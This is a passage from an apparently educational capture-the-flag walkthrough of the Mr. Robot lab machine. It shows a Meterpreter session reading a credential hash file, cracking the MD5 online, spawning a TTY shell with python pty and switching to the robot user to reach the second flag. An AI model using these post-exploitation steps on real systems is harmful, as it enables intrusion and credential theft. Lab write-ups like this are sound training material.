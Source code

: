 ```console
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  srv
40555/r-xr-xr-x   0        dir   2019-02-19 01:11:33 +0530  sys
41777/rwxrwxrwx   4096     dir   2019-02-18 23:40:18 +0530  tmp
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  usr
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  var
100600/rw-------  5821984  fil   2015-09-16 16:19:06 +0530  vmlinuz

meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2015-11-13 12:50:08 +0530  robot

meterpreter > cd robot
meterpreter > ls -la
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 12:58:21 +0530  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 12:58:21 +0530  password.raw-md5

meterpreter > cat key-2-of-3.txt
[-] core_channel_open: Operation failed: 1
meterpreter > cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
This is a __MD5 Hash__ with username __robot__. We go to [HashKiller](https://hashkiller.co.uk/md5-decrypter.aspx) to decrypt it.
```
abcdefghijklmnopqrstuvwxyz
```
We have the password. Let's move forward..and get back to the meterpreter session.
```console
meterpreter > shell
Process 2296 created.
Channel 1 created.
```
Okay! Let's establish s [TTY Shell](#) here by typing the following code
```console
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now let's login as __robot__.

## Flag 2:

```console
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
```
